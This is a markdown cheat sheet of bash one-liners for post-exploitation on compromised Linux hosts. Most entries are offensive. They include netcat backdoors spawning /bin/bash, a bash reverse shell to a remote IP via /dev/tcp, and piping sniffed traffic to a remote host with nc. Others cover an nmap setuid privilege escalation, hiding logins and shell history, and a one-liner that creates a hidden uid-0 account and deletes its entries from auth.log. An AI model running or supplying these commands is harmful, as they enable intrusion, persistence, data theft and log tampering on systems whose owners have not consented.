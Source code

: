 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for text contained in files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

**Recursively search for files with the specified word within them**
*Submitted by cat on Google Fourms*
```bash
ls -a | find | grep -i "string"
```

**Netcat backdoor**
*Does not work with most distro's default version of netcat (most do not define ENABLE_GAPING_SECURITY_HOLE which turns on -e)*
```bash
nc -e /bin/bash *remotecomputer* *port*
OR
nc -e /bin/bash -lp *port*
```

**View CPU Information**
```bash
cat /proc/cpuinfo
```

**Bash reverse shell** (@icleus)

Works on all (recent) distributions where egress filtering is not in place / quite open, use this to reverse connect to your listening host.

```bash
bash -i>& /dev/tcp/123.123.123.123/1234 0>&1 &
```

I find this best works with a socat listener due to the readline support.

```bash
socat readline TCP-LISTEN:1234
```

**One line root useradd**
```bash
USERNAME="name";PASSWD=`perl -e 'print crypt($PASSWD, "sa")'` && sudo useradd -p $PASSWORD --system --shell '/bin/bash' --base-dir "/bin" --uid 0 --non-unique --comment "Comment Here" $USERNAME && sudo sed -i '/useradd/d;/$USERNAME/d;' /var/log/auth.log
```

Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions)

